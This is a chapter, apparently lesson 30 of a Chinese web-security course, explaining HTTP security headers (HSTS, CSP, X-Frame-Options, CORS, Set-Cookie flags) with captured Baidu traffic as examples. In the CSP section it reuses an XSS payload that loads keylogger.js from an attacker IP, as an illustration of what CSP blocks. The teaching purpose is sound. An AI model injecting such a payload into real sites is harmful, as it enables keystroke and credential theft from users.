




- 00 导读 解读OWASP Top10 2021.md.html
- 00 开篇词 从黑客的视角找漏洞，从安全的角度优雅coding.md.html
- 01 失效的访问控制：攻击者如何获取其他用户信息？.md.html
- 02 路径穿越：你的Web应用系统成了攻击者的资源管理器？.md.html
- 03 敏感数据泄露：攻击者如何获取用户账户？.md.html
- 04 权限不合理：攻击者进来就是root权限？.md.html
- 05 CSRF：为什么用户的操作他自己不承认？.md.html
- 06 加密失败：使用了加密算法也会被破解吗？.md.html
- 07 弱编码：程序之间的沟通语言安全吗？.md.html
- 08 数字证书：攻击者可以伪造证书吗？.md.html
- 09 密码算法问题：数学知识如何提高代码可靠性？.md.html
- 10 弱随机数生成器：攻击者如何预测随机数？.md.html
- 11 忘记加“盐”：加密结果强度不够吗？.md.html
- 12 注入（上）：SQL注入起手式.md.html
- 13 注入（下）：SQL注入技战法及相关安全实践.md.html
- 14 自动化注入神器（一）：sqlmap的设计思路解析.md.html
- 15 自动化注入神器（二）：sqlmap的设计架构解析.md.html
- 16 自动化注入神器（三）：sqlmap的核心实现拆解.md.html
- 17 自动化注入神器（四）：sqlmap的核心功能解析.md.html
- 19 失效的输入检测（上）：攻击者有哪些绕过方案？.md.html
- 20 失效的输入检测（下）：攻击者有哪些绕过方案？.md.html
- 21 XSS（上）：前端攻防的主战场.md.html
- 22 XSS（中）：跨站脚本攻击的危害性.md.html
- 23 XSS（下）：检测与防御方案解析.md.html
- 24 资源注入：攻击方式为什么会升级？.md.html
- 25 业务逻辑漏洞：好的开始是成功的一半.md.html
- 26 包含敏感信息的报错：将安全开发标准应用到项目中.md.html
- 27 用户账户安全：账户安全体系设计方案与实践.md.html
- 28 安全配置错误：安全问题不只是代码安全.md.html
- 29 Session与Cookie：账户体系的安全设计原理.md.html
- 30 HTTP Header安全标志：协议级别的安全支持.md.html
- 31 易受攻击和过时的组件：DevSecOps与依赖项安全检查.md.html
- 32 软件和数据完整性故障：SolarWinds事件的幕后⿊⼿.md.html
- 33 SSRF：穿越边界防护的利刃.md.html
- 34 Crawler VS Fuzzing：DAST与机器学习.md.html
- 35 自动化攻防：低代码驱动的渗透工具积累.md.html
- 36 智能攻防：构建个性化攻防平台.md.html
- 大咖助场 数字证书，困境与未来.md.html
- 春节策划（一） 视频课内容精选：Web渗透测试工具教学.md.html
- 春节策划（三） 一套测试题，看看对课程内容的掌握情况.md.html
- 春节策划（二） 给你推荐4本Web安全图书.md.html
- 结束语 无畏前行.md.html
- 捐赠
30 HTTP Header安全标志：协议级别的安全支持
你好，我是王昊天。
前几天，我在路上遇到了一个外国友人，他用英语问我如何前往上海火车站。我一时没缓过神，直接用中文回答他，乘坐一号线就可以到达。看着他迷茫的眼神，我反应了过来，接着赶忙用英语来回答他。还好我英文不错，他听懂了，在对我说了声谢谢后就走上了一号线。
事后，我反思了一下，我们人和人之间的沟通，其实都会按照一个隐形的协议去进行，例如我会中文和英文，外国友人却只会英文，所以我们就需要用英文才能进行沟通。
那么你知道我们是如何与Web应用进行有效通信的吗？事实上，我们与Web应用的交互也离不开一个广泛运用的协议—— HTTP协议。这个协议规定了，Web客户端如何从Web服务器请求Web页面，以及服务器如何把Web页面传送给客户端。
除了这些广为人知的作用，HTTP协议还能对Web应用提供一些安全支持。这一讲，我们就一起学习下HTTP协议对于安全有哪些支持。
HTTP协议
首先，我们需要搞清楚什么是HTTP协议。
HTTP协议，即超文本传输协议Hyper Text Transfer Protocol。它是一个简单的请求-响应协议，且通常运行在TCP协议之上。它指定了客户端可能发送给服务器什么样的消息以及得到什么样的响应。这个协议是早期Web成功的有功之臣，因为它使开发和部署非常得直截了当。

在了解完HTTP协议的大致功能后，让我们一起看一个示例，了解HTTP协议所规定的消息样式。
这是我访问百度页面时，用BurpSuite捕获到的报文：
GET / HTTP/1.1
Host: www.baidu.com
Cookie: BIDUPSID=D6FC148CB0142694E6019498ECE6FA8F; PSTM=1644916942;
...
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
我们可以看到，这是一个请求报文，报文中第一行内容为HTTP请求的方式，以及所用到的HTTP协议版本。其它行都是定义的HTTP请求头信息，即HTTP Request Header信息。
将请求报文发出后，我们会收到Web应用返回的响应报文：
HTTP/1.1 200 OK
Bdpagetype: 1
Bdqid: 0xeafae0b1000f161a
Cache-Control: private
Content-Type: text/html;charset=utf-8
Date: Tue, 15 Feb 2022 12:35:42 GMT
Expires: Tue, 15 Feb 2022 12:35:31 GMT
Server: BWS/1.1
Set-Cookie: BDSVRTM=0; path=/
Set-Cookie: BD_HOME=1; path=/
Set-Cookie: H_PS_PSSID=35410_35104_31254_34584_35491_35872_35796_35324_26350_35746; path=/; domain=.baidu.com
Strict-Transport-Security: max-age=172800
...
<!DOCTYPE html><!--STATUS OK-->
<html>...</html>
我们可以发现，响应报文的第一行也是所使用的HTTP协议版本信息，后面会跟上响应的状态码。下面几行，会包含一些HTTP Response Header即HTTP响应头信息。最后，从标签开始，是响应页面的内容。
到这里，我们已经知道了HTTP协议的作用，并且对HTTP请求报文和响应报文都有了一定的了解。接下来，让我们来学习HTTP Header中的安全标志，了解HTTP协议为了保证Web应用的安全做出了哪些应对措施。
HTTP Header安全标志
HTTP协议可以分为请求与响应两部分，所以HTTP Header按照功能也可以分为HTTP请求头以及HTTP响应头。
其中请求头包含了有关要获取资源的客户端信息，而响应头则包含一些有关响应的附加信息。因此，有关安全的HTTP头，都被设在HTTP响应标头中。下面，让我们一起看几个典型的HTTP安全响应头，它们都是用于定义是否应在Web浏览器上激活一些安全预防措施。
HSTS标志
HSTS标头即HTTP Strict Transport Security的简称，它是Web应用使用最广泛的安全标志之一。这个标志会告诉浏览器只能通过HTTPS协议访问当前资源，而不可以使用HTTP访问。
这里，我们来了解下什么是HTTPS协议。
这还要从HTTP协议说起，虽然HTTP协议使用极为广泛，但是却存在不小的安全缺陷，主要是其数据的明文传送和消息完整性检测的缺乏，而这两点恰好是网络支付等新兴应用中安全方面最需要关注的。
关于HTTP的明文数据传输，最常用的攻击手法就是网络嗅探。攻击者可以试图从传输过程当中分析出敏感的数据，例如从管理员对Web程序后台的登录过程中，攻击者可以从中获取网站的账号密码，从而获取网站管理权限。
另外，HTTP在传输客户端请求和服务端响应时，唯一的数据完整性检验就是在报文头部包含了本次传输数据的长度，而对内容是否被篡改不作确认。 因此攻击者可以轻易地发动中间人攻击，修改客户端和服务端传输的数据，甚至在传输数据中插入恶意代码只需要保证传输数据长度不变即可。
为了解决这个问题，HTTPS协议应运而生，它是由HTTP加上TLS/SSL协议构建的可进行加密传输、可检测消息完整性的网络协议。因此，当我们使用HTTPS访问一个页面时，会更有安全保障。
接下来，让我们通过一个示例，来体会HSTS标志的作用。
我们先使用HTTP协议访问百度，获取到如下报文：

从报文中，我们可以看到请求发出后，收到了响应302，这意味着需要进行跳转操作。从location信息中，我们发现它会跳转到百度的HTTPS服务。

接着，我们果然看到一个发往https://www.baidu.com的请求报文，并且在请求报文中，配置了Strict-Transport-Security，并且给它赋值为max-age=172800，这意味着该配置的有效时间为172800秒，即48小时。
为了方便观察，我们清空HTTP history中的记录，再次用HTTP协议访问百度页面，获取到的记录如下：

可以看到我们的HTTP访问直接变为了更安全的HTTPS访问，这就是HSTS标志的作用。
到这里，我们已经学完了HTTP协议的第一个安全标志。接下来，让我们继续学习其他的安全标志。
CSP标志
不知道你是否还记得CSP即Content-Security-Policy，我们在之前学习XSS攻击的防御时曾提到过这一防御方案。事实上，它也是一个HTTP安全响应头，我们可以利用它来定义页面可以加载哪些资源。
这么说可能有点抽象，下面让我们一起看一个示例，来帮助我们理解CSP的作用。
Content-Security-Policy: script-src 'self'
这是一个CSP标志配置示例，它的值为 script-src 'self'，这代表会对JavaScript代码的加载做一些限制，仅允许加载与Web页面相同来源的JavaScript代码。注意，这里的相同来源指的是相同的协议、域名和端口。
回顾我们用XSS攻击实现按键记录的过程，我们需要利用如下语句加载恶意服务器上的 keylogger.js 的内容，从而实现按键记录功能。
<script%20src=http://192.168.3.193/keylogger.js></script>
可如果被攻击的Web应用添加了上述CSP策略，就会导致我们的JavaScript代码加载失败，从而无法实现我们的攻击行为。
下面，让我们继续学习X-Frame-Options安全标志的功能。
X-Frame-Options标志
X-Frame-Options响应头也是一个重要的HTTP Header安全标志，它用来配置是否允许一个页面可在 、
接下来，我们一起来看一个示例：
X-Frame-Options: DENY
在这个示例中，我们将它的值设为DENY，表示该页面不允许在frame等上述标签中展示任何内容。事实上，它还有两个可能取值SAMEORIGIN以及ALLOW-FROM uri。其中SAMEORIGIN代表仅允许在上述标签中展示与当前页面域名相同的内容，而ALLOW-FROM uri则代表仅允许在其中展示uri对应页面的内容。
还记得我们在XSS学习中，曾今利用XSS攻击实现了广告的植入操作，产生的效果如下图所示：

如果Web应用在响应中配置了这一标签，那么就可以有效地抵御广告的植入。
接下来，我们继续来学习另一个常用的HTTP协议响应头，即Access-Control-Allow-Origin，它可以用来进行资源的访问权限设置。
Access-Control-Allow-Origin标志
Access-Control-Allow-Origin标志指定了该响应的资源是否被允许与给定的origin共享。
为了让你更好地理解，下面让我们一起来看一些示例：
Access-Control-Allow-Origin: *
# 或
Access-Control-Allow-Origin: https://mituan.zone
它有两种配置方式，第一种将它的值设为*，这代表允许所有域名访问当前响应的资源。第二种将它的值设为一个具体的uri，这代表仅允许该域名访问当前响应的资源。因此，Access-Control-Allow-Origin标志可以使网站之间安全地跨域获取资源。
最后，我们来看一个相对熟悉一些的HTTP响应头Set-Cookie。
Set-Cookie标志
在上一讲中，我们学习了保持登陆状态的认证，事实上，它就是通过Set-Cookie来实现的。
Set-Cookie标志不仅可以用来配置浏览器的Cookie信息，同时它还能对Cookie信息进行一些保护。下面，还是一起看一个示例：
Set-Cookie: <cookie-name>=<cookie-value>; Secure; HttpOnly
在这个示例中，我们写入了一个cookie的值，同时在后面加了两个配置项，Secure以及HttpOnly。其中Secure的作用是强制cookie只能在HTTPS环境下传递，而HttpOnly则可以禁止使用JavaScript去存取cookie。它们都可以有效地保护cookie信息，防止攻击者窃取cookie。
总结
在这一讲中，我们学习了HTTP Header对于Web提供的协议级别的安全支持。
首先，我们回顾了HTTP协议的内容，并对请求报文的格式以及响应报文的格式等基础知识进行了学习与回顾。
在学习基础知识的过程中，我们了解到在响应报文中，会存在一些HTTP Header信息。其中，有的HTTP Header内容可以对我们的Web应用进行保护。
最后我们对其中常用的五个典型HTTP Header进行了学习。它们分别为HSTS标志、CSP标志、X-Frame-Options标志、Access-Control-Allow-Origin标志以及Set-Cookie标志。在学习过程中，我们了解了它们的作用，并通过示例理解了它们的配置方式。
思考题
你知道还有哪些HTTP Header可以对Web应用提供安全支持吗？
欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！
© 2019 - 2023 Liangliang Lee. Powered by gin and hexo-theme-book.